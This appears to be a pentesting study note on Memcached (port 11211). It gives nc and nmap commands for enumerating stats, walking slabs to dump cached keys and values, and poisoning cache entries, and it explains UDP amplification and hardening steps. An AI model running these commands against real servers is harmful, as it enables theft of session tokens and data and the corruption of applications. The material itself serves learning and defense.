

# 19 - Memcache (Port 11211) Pentesting

## 1. Executive Summary

Memcached is a high-speed, in-memory key-value cache on **TCP/UDP 11211**, used by web apps to cache database results, sessions, and rendered fragments. It has **no authentication and no encryption** by design. Two consequences matter to a pentester: (1) an exposed instance lets you **dump the cache**, which frequently contains session tokens and sensitive query results; and (2) the **UDP** interface is a classic **DDoS amplification** vector (the source of the record-breaking GitHub 2018 attack). It is a plaintext protocol, so `nc` is the whole toolkit.

## 2. Protocol Overview & Architecture

Simple text protocol: send a command line, read a response. Data is stored in **slabs** (memory chunks grouped by item size). There is no concept of "list all keys" directly, but you can walk the slabs: `stats items` reveals slab IDs, then `stats cachedump <slab_id> <limit>` lists keys, and `get <key>` returns the value.

## 3. Enumeration & Footprinting

```bash
nmap -n -sV --script memcached-info -p 11211 <IP>

# Manual: gather stats
echo -e "stats\r\n" | nc -nvw1 <IP> 11211
echo -e "stats items\r\n" | nc -nvw1 <IP> 11211   # slab IDs + item counts
echo -e "version\r\n" | nc -nvw1 <IP> 11211
```

## 4. Exploitation Deep Dive

### 4.1 Dumping the Cache
Walk slabs → keys → values:
```bash
# 1) find slab IDs
echo "stats items" | nc -nw1 <IP> 11211
# 2) list keys in a slab (e.g. slab 3, up to 100 keys)
echo "stats cachedump 3 100" | nc -nw1 <IP> 11211
# 3) read a value
echo "get <key>" | nc -nw1 <IP> 11211
```
Look for session IDs, auth tokens, cached SQL rows, and API responses.

### 4.2 UDP Amplification (DDoS)
A tiny spoofed `stats`/`get` over **UDP** returns a much larger response (amplification factor up to ~50,000×). Report the exposed UDP/11211 as a finding; do **not** launch.

### 4.3 Cache Poisoning
With write access you can overwrite cached values (`set <key>`), potentially feeding malicious data back into the application (e.g., poisoned session or config entries).

## 5. Mermaid Attack Flow



## 6. Post-Exploitation
- Stolen session tokens → hijack authenticated web sessions.
- Cached DB rows reveal data the app considers protected.
- Poisoned cache entries can alter application behavior for all users.

## 7. Defense & Hardening
1. Bind to `127.0.0.1` / internal only; never expose to untrusted networks.
2. **Disable UDP** (`-U 0`) to kill the amplification vector.
3. Enable SASL authentication where supported; firewall 11211.
4. Avoid caching highly sensitive data unencrypted.

## 8. Chaining Opportunities
- Session tokens → account takeover. See **[[Account Takeover]]**.
- Cached credentials → lateral reuse.

## 9. Related Notes
- [[15 - Redis (Port 6379) Pentesting]]
- [[19 - Memcached — Amplification Attack, Data Dumping]]

## 10. Tools
`nc`, `nmap` memcached-info, `memcdump`/`libmemcached-tools`.
